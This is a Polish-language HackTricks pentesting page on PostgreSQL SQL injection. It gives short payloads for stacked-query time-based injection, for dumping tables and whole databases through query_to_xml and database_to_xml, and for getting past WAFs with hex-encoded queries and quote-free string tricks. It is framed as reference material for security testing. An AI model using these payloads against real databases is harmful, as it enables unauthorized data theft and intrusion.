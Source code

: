 # PostgreSQL injection

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jeśli jesteś zainteresowany **karierą w hacking** i chcesz złamać to, co nie do złamania - **zatrudniamy!** (_wymagana biegła znajomość polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Ta strona ma na celu wyjaśnienie różnych trików, które mogą pomóc w wykorzystaniu SQLinjection znalezionego w bazie danych postgresql oraz uzupełnienie trików, które można znaleźć na** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Interakcja z siecią - eskalacja uprawnień, skanowanie portów, ujawnienie odpowiedzi NTLM challenge & eksfiltracja

**Moduł PostgreSQL `dblink`** oferuje możliwości łączenia się z innymi instancjami PostgreSQL i wykonywania połączeń TCP. Te funkcje, w połączeniu z funkcjonalnością `COPY FROM`, umożliwiają działania takie jak eskalacja uprawnień, skanowanie portów i przechwytywanie odpowiedzi NTLM challenge. Aby uzyskać szczegółowe metody wykonywania tych ataków, sprawdź jak [wykonać te ataki](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Przykład eksfiltracji z użyciem dblink i dużych obiektów**

Możesz [**przeczytać ten przykład**](dblink-lo\_import-data-exfiltration.md), aby zobaczyć przykład CTF **jak załadować dane do dużych obiektów, a następnie eksfiltracja zawartości dużych obiektów w nazwie użytkownika** funkcji `dblink_connect`.

## Ataki PostgreSQL: Odczyt/zapis, RCE, privesc

Sprawdź, jak skompromitować hosta i eskalować uprawnienia z PostgreSQL w:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## Ominięcie WAF

### Funkcje łańcuchowe PostgreSQL

Manipulowanie łańcuchami może pomóc w **ominięciu WAF-ów lub innych ograniczeń**.\
[**Na tej stronie** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**możesz znaleźć kilka przydatnych funkcji łańcuchowych.**

### Złożone zapytania

Pamiętaj, że postgresql obsługuje złożone zapytania, ale wiele aplikacji zgłosi błąd, jeśli zwrócone zostaną 2 odpowiedzi, gdy oczekiwano tylko 1. Jednak nadal możesz nadużywać złożonych zapytań za pomocą wstrzykiwania czasowego:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML triki

**query\_to\_xml**

Ta funkcja zwróci wszystkie dane w formacie XML w zaledwie jednym pliku. Jest idealna, jeśli chcesz zrzucić dużo danych w zaledwie 1 wierszu:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Ta funkcja zrzuci całą bazę danych w formacie XML w zaledwie 1 wierszu (bądź ostrożny, jeśli baza danych jest bardzo duża, ponieważ możesz spowodować DoS lub nawet swojego własnego klienta):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Jeśli możesz uruchomić **zapytania** przekazując je **wewnątrz ciągu** (na przykład używając funkcji **`query_to_xml`**). **Możesz użyć convert\_from, aby przekazać ciąg jako hex i w ten sposób obejść filtry:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Zabronione cudzysłowy

Jeśli nie możesz użyć cudzysłowów dla swojego ładunku, możesz to obejść za pomocą `CHR` dla podstawowych klauzul (_konkatenacja znaków działa tylko dla podstawowych zapytań, takich jak SELECT, INSERT, DELETE itp. Nie działa dla wszystkich instrukcji SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Lub z `$`. Te zapytania zwracają te same wyniki:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jeśli jesteś zainteresowany **karierą w hackingu** i chcesz złamać to, co nie do złamania - **zatrudniamy!** (_wymagana biegła znajomość polskiego w mowie i piśmie_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
